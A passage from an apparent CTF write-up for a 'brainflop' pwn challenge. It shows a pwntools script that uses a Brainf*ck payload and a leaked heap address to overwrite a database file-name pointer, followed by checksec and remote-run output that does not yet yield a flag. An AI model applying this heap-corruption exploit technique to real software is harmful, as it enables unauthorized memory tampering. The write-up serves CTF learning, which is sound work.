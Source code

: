 I made a Brainf\*ck program to overwrite the pointer, and appended the string `todo_delete_this.db` to the end.
Then I used GEF's `grep` command to find the address of the string, and subtract the leaked heap address to find the offset that needs to be added.
Here's the resulting script:

```python
# Overwrite database file name
r.sendlineafter(b'>> ', b'1')  # Create new VM
r.sendlineafter(b' ? ', b'y')  # Enable backups so that database will be dumped
pl = b'<' * 0x650 + b',>' * 8 + b'todo_delete_this.db\0'
# Pad to fixed size so heap layout doesn't change
assert len(pl) <= 10000
pl = pl.ljust(10000, b'A')
r.sendlineafter(b'): ', pl)
# Send database file name address
for b in p64(leek + 0x1670):
   r.sendline(bytes([b]))

# Exit the program so that the backup will be performed
r.sendlineafter(b'>> ', b'3')

r.interactive()
```

When I ran this locally, the program created a `todo_delete_this.db` file, which confirms that I overwrote the database file name correctly.
However, when I ran it on the server, the output did not contain a flag:

<pre><code>[alex@ctf chal]$ ./solve.py REMOTE
[<font color="#A2734C"><b>!</b></font>] Could not populate PLT: module &apos;unicorn&apos; has no attribute &apos;UC_ARCH_RISCV&apos;
[<font color="#0071FF"><b>*</b></font>] &apos;/home/alex/brainflop/chal/challenge_patched&apos;
    Arch:     amd64-64-little
    RELRO:    <font color="#A2734C">Partial RELRO</font>
    Stack:    <font color="#C01C28">No canary found</font>
    NX:       <font color="#26A269">NX enabled</font>
    PIE:      <font color="#26A269">PIE enabled</font>
    RUNPATH:  <font color="#C01C28">b&apos;.&apos;</font>
[<font color="#A2734C"><b>!</b></font>] Could not populate PLT: module &apos;unicorn&apos; has no attribute &apos;UC_ARCH_RISCV&apos;
[<font color="#0071FF"><b>*</b></font>] &apos;/home/alex/brainflop/chal/libc.so.6&apos;
    Arch:     amd64-64-little
    RELRO:    <font color="#A2734C">Partial RELRO</font>
    Stack:    <font color="#26A269">Canary found</font>
    NX:       <font color="#26A269">NX enabled</font>
    PIE:      <font color="#26A269">PIE enabled</font>
[<font color="#0071FF"><b>*</b></font>] &apos;/home/alex/brainflop/chal/ld-2.38.so&apos;
    Arch:     amd64-64-little
    RELRO:    <font color="#A2734C">Partial RELRO</font>
    Stack:    <font color="#C01C28">No canary found</font>
    NX:       <font color="#26A269">NX enabled</font>
    PIE:      <font color="#26A269">PIE enabled</font>
[<font color="#26A269"><b>+</b></font>] Opening connection to pwn.csaw.io on port 9999: Done
[<font color="#0071FF"><b>*</b></font>] hex(leek)=&apos;0x555e886ee330&apos;
[<font color="#0071FF"><b>*</b></font>] Switching to interactive mode
Goodbye!
Performing backup for task 2
TIMESTAMP = timestamp
TAPESTATE = |
